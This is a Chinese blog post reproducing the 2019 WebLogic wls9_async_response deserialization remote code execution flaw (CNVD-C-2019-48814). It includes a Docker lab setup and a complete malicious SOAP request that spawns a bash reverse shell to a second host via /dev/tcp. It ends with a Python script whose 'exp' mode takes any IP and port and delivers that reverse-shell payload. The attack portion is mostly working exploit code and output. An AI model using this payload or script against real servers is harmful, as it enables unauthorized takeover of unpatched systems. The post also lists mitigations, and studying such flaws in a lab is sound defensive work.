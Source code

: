 ```yaml
---
layout:     post
title:      Weblogic反序列化远程代码执行漏洞
subtitle:   Weblogic反序列化远程代码执行漏洞
date:       2019-06-28
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 反序列化漏洞
    - Weblogic漏洞
---
```

  4月17日，国家信息安全漏洞共享平台（CNVD）公开了Weblogic反序列化远程代码执行漏洞，此漏洞存在于weblogic自带的wls9_async_response.war组件中，由于该war包在反序列化处理输入信息时存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，获取服务器权限，实现远程代码执行。

## 0x00 漏洞概述
**漏洞描述**
   该漏洞是由wls9_async_response组件导致，在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，未授权的情况下远程执行命令。部分版本WebLogic中默认包含的wls9_async_response包，主要是为WebLogic Server提供异步通讯服务。

**漏洞等级**：高危

**漏洞编号**：CNVD-C-2019-48814

**影响范围**
* Oracle WebLogic Server 10.*
* Oracle WebLogic Server 12.1.3
* 启用bea_wls9_async_response组件的所有Weblogic版本

**修复建议**
* 删除wls9_async_response的war包并重启webLogic；
* 通过访问策略控制禁止 /_async/* 路径的URL访问。

## 0x01 环境搭建
我使用的是docker，比较方便。

启动docker命令如下：
```
systemctl start docker 
```
创建docker-compose.yml，内容如下：
```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic
   ports:
    - "7001:7001"
```
启动测试环境命令如下：
```
docker-compose up -d
```
查看环境是否启动成功，命令如下：
![图片](../../../../img/CNVD-C-2019-48814-1.png)
## 0x02 复现漏洞
访问如下URL：
```
http://10.20.40.96:7001/_async/AsyncResponseService
```

![图片](../../../../img/CNVD-C-2019-48814-2.png)

通过burp suite repeater模块发送下面的POST数据包：
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 10.20.40.96:7001
Content-Length: 787
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.20.40.97/7777 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

![图片](../../../../img/CNVD-C-2019-48814-3.png)
最终成功反弹到了10.20.40.97上
![图片](../../../../img/CNVD-C-2019-48814-4.png)


## 0x03 python脚本
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
import requests
import sys


headers = {'content-type':'text/xml','User-Agent':'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50'}




def poc(target):
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r =requests.get(url,timeout=2)
        if r.status_code ==200:
            print("[ + ] " + target + '可能存在Weblogic反序列化远程代码执行漏洞!' )
        else:
            print("[ - ] " +target + "不存在漏洞！")
def exp(target):
    ip = input("反弹到哪个IP?")
    port = input("反弹到哪个端口?")
    payload = '''
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
    <soapenv:Header> 
    <wsa:Action>xx</wsa:Action>
    <wsa:RelatesTo>xx</wsa:RelatesTo>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
    </void>
    </array>
    <void method="start"/></void>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
    <asy:onAsyncDelivery/>
    </soapenv:Body></soapenv:Envelope>
    ''' % (ip, port)
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r = requests.post(url,headers=headers,data=payload,timeout=2)
        if r.status_code ==202:
            print("反弹成功！")




if __name__ == '__main__':
    target = sys.argv[1]
    action = sys.argv[2]
    if target != '':
        if action == '':
            exit()
        elif action == 'poc':
            poc(target)
        elif action == 'exp':
            exp(target)
```


效果图：
![图片](../../../../img/CNVD-C-2019-48814-5.png)
![图片](../../../../img/CNVD-C-2019-48814-6.png)
![图片](../../../../img/CNVD-C-2019-48814-7.png)

[Github下载地址](https://github.com/FiveAourThe/exploit-by-python/blob/master/Weblogic/Weblogic.py)



